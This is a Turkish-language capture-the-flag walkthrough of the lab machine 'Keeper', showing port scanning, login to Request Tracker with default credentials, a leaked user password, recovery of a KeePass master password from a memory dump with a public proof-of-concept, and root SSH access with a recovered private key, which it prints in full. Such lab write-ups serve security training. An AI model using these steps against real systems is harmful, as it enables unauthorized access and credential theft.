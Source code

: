 # Keeper

## User Flag

!!! info "Target IP Address"

    10.10.11.227

Keşfe başlamak için ilk olarak aşağıdaki komut ile bir Nmap taraması gerçekleştirdim:

```bash
sudo nmap 10.10.11.227 -sS -sV -sC -oN nmap
```

```text title="Output" hl_lines="6 10"
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-01 03:21 +03
Nmap scan report for 10.10.11.227
Host is up (0.86s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 986.28 seconds
```

Tarama sonuçlarında 80 numaralı port açık olarak gözükmektedir. Bu bilgiden hareketle, siteyi bir web tarayıcısında ziyaret etmeyi düşündüm. URL kısmına IP adresini girerek siteye gittiğimde karşıma çıkan sayfada aşağıdaki mesaj ile karşılaştım:

```text
To raise an IT support ticket, please visit tickets.keeper.htb/rt/
```

Ardından aşağıdaki adresleri `/etc/hosts` dosyasına ekledim:

```bash
echo -e "10.10.11.227 keeper.htb\n10.10.11.227 tickets.keeper.htb" | sudo tee -a /etc/hosts
```

Mesajda bahsedilen adrese gittiğimde bir giriş sayfasıyla karşılaştım:

![](../assets/images/keeper/rt-login-page.png)

Kısa bir Google aramasından sonra Request Tracker [wiki](https://rt-wiki.bestpractical.com/wiki/ManualBasicAdministration#CREATE_USERS) adresinde, sisteme girişte kullanılan varsayılan kullanıcı adı (`root`) ve varsayılan parola bilgisini (`password`) öğrendim ve bu bilgileri kullanarak giriş gerçekleştirebildim:

![](../assets/images/keeper/rt-at-a-glance.png)

Bu ekranda `Search` --> `Tickets` --> `Recently Viewed` sekmesinde `#300000: Issue with Keepass Client on Windows` isimli bir Ticket ile karşılaştım. Bu Ticket içeriğine baktığımda, Lise Nørgaard (`lnorgaard`) isimli bir kullanıcının KeePass yazılımı hakkındaki bir e-posta konuşmasına rastladım:

![](../assets/images/keeper/ticket-300000.png)

Aynı ekranda `Admin` --> `Users` sekmesinde Lise Nørgaard kullanıcısının bilgilerine baktığımda, yorumlar kısmında kullanıcının parola bilgisini öğrendim:

![](../assets/images/keeper/user-password.png)

Elde ettiğim kullanıcı adı (`lnorgaard`) ve parola bilgisi (`Welcome2023!`) ile bir SSH bağlantısı gerçekleştirdim:

```bash
ssh lnorgaard@10.10.11.227
```

Bağlantı kurulduktan sonra aşağıdaki komut ile kullanıcı bayrağını elde edebildim:

```bash
cat user.txt
```

## Root Flag

SSH bağlantısı gerçekleştirdiğim kullanıcının ev dizininde `ls` komutunu çalıştırdığımda, bayrak dosyası dışında bir ZIP dosyası ile karşılaştım:

```bash
ls
```

```text title="Output"
RT30000.zip  user.txt
```

ZIP dosyasını arşivden çıkardığımda 2 adet dosya ile daha karşılaştım (bu dosyaları sonrasında Python HTTP sunucusu yardımıyla kendi sistemime indirdim):

```bash
unzip RT30000.zip && ls
```

```text title="Output"
KeePassDumpFull.dmp  RT30000.zip  passcodes.kdbx  user.txt
```

Bu dosyalardan `passcodes.kdbx` dosyasının tipini kontrol ettiğimde bu dosyanın, KeePass 2.x yazılımına ait bir veri tabanı dosyası olduğunu öğrendim:

```bash
file passcodes.kdbx
```

```text title="Output"
passcodes.kdbx: Keepass password database 2.x KDB
```

Kısa bir Google aramasından sonra, KeePass Dump dosyasından ana parolayı elde etmeyi sağlayan bir [PoC](https://github.com/vdohney/keepass-password-dumper) ile karşılaştım.

Bu kodu kullanabilmek için `dotnet` aracı da gerekiyordu, bu sebeple [bu](https://dotnet.microsoft.com/en-us/download/dotnet/thank-you/sdk-7.0.405-linux-x64-binaries) siteden yardım alarak ilk önce bu aracın kurulumunu gerçekleştirdim.

Ardından PoC kodunu repodan bilgisayarıma klonlayıp, klonlanan dizine geçiş yaptım (gerekli):

```bash
git clone https://github.com/vdohney/keepass-password-dumper && cd keepass-password-dumper
```

Aşağıdaki komut ile Dump dosyasından ana parolayı elde etmeyi denedim:

```bash
~/dotnet run ~/KeePassDumpFull.dmp
```

```text title="Output"
...SNIP...

Password candidates (character positions):
Unknown characters are displayed as "●"
1.: ●
2.: ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
3.: d,
4.: g,
5.: r,
6.: ø,
7.: d,
8.:  ,
9.: m,
10.:    e,
11.:    d,
12.:     ,
13.:    f,
14.:    l,
15.:    ø,
16.:    d,
17.:    e,
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```

Çıktının en sonunda `Combined` olarak verilen karakterler (`●` + `süslü parantezler içindeki karakterlerden bir karakter` + `dgrød med fløde`) parola olmalıydı. Fakat en başta bilinmeyen bir karakter (`●`) ve süslü parantezler içindeki karakterlerden bir karakter tam olarak bilinmediği için parola bilgisi eksikti.

Daha öncesinde kullanıcı bilgilerine bakarken, kullanıcının Danimarkalı olduğunu öğrenmiştim:

![](../assets/images/keeper/danish-user.png)

Bu ipucundan faydalanarak bulunan karakterleri Google üzerinde arattığımda, Google bana `dgrød med fløde` --> `rødgrød med fløde` önerisinde bulundu.

Bunun ardından doğru parolayı bulmuş olabileceğimi düşünerek keşfe devam ettim.

Yine kısa bir Google aramasından sonra [https://app.keeweb.info](https://app.keeweb.info) sitesi ile karşılaştım. Bu siteye `passcodes.kdbx` dosyasını yükleyip parola olarak `rødgrød med fløde` bilgisini verdiğimde, veri tabanını başarılı bir şekilde deşifre edebildim:

```text title="Output"
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

Bu çıktıyı `key.ppk` isimli bir dosyaya kaydettim ve dosyanın izinlerini güncelledim:

```bash
chmod 0644 ~/key.ppk
```

Ardından Linux için PuTTY aracını yükledim:

```bash
sudo apt update && sudo apt install putty-tools
```

Bunun ardından aşağıdaki komut yardımıyla dosya formatını PuTTY --> OpenSSH olarak değiştirdim:

```bash
puttygen ~/key.ppk -O private-openssh -o ~/key
```

Elde edilen dosyayı kullanarak `root` kullanıcısı için bir SSH bağlantısı gerçekleştirdim:

```bash
ssh root@10.10.11.227 -i ~/key
```

Bağlantı kurulduktan sonra aşağıdaki komut ile `root` bayrağını elde edebildim:

```bash
cat root.txt
```
